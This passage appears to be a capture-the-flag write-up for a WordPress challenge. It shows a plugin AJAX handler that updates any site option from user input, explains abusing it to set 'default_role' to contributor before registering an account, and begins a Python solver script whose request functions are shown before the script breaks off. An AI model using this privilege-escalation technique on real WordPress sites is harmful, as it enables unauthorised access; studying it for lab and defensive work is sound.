 ```php
function set_option() {
    if (isset($_POST['_wpnonce']) && wp_verify_nonce(sanitize_text_field(wp_unslash($_POST['_wpnonce'])), 'login-customizer-admin')) {
        $op = sanitize_text_field($_POST['option']);
        $val = sanitize_text_field($_POST['value']);
        update_option($op, $val);
        wp_send_json_success('Option has been saved', 201);
    }
}

```

This AJAX action will update our user-supplied option, which means we can set the `default_role` option to, for example, "contributor" so we can read the flag in the `patchstack_get_the_flag` AJAX action. After setting the `default_role`, we can register a new user, and this time the role will be set as "contributor" because we set it before using the `default_role` option. Lastly, we get the flag in the `patchstack_get_the_flag` AJAX action.

## Solver

solver.py

    ```python
    import httpx
    import asyncio, re, random

    URL = "http://52.77.81.199:9193/"

    class BaseAPI:
        def __init__(self, url=URL) -> None:
            self.c = httpx.AsyncClient(base_url=url)

        def wp_login(self, username: str, password: str) -> None:
            return self.c.post("/wp-login.php", data={
                "log": username,
                "pwd": password
            })
        def login_register_user(self, username, email, password):
            return self.c.post("/wp-admin/admin-ajax.php?action=login_register_user", data={
                "username": username,
                "email": email,
                "password": password,
            }) 
        def login_customizer_set_option(self, nonce, option: str, value: str) -> None:
            return self.c.post("/wp-admin/admin-ajax.php?action=login_customizer_set_option", data={
                "option": option,
                "value": value,
                "_wpnonce": nonce
            })
        def patchstack_get_the_flag(self):
            return self.c.get("/wp-admin/admin-ajax.php?action=patchstack_get_the_flag")

    class API(BaseAPI):
        async def get_nonce(self):
            res = await self.c.get("/?preview=1")
            return re.findall("_ldAdminNounce = (.*?)\"", res.text)[0]
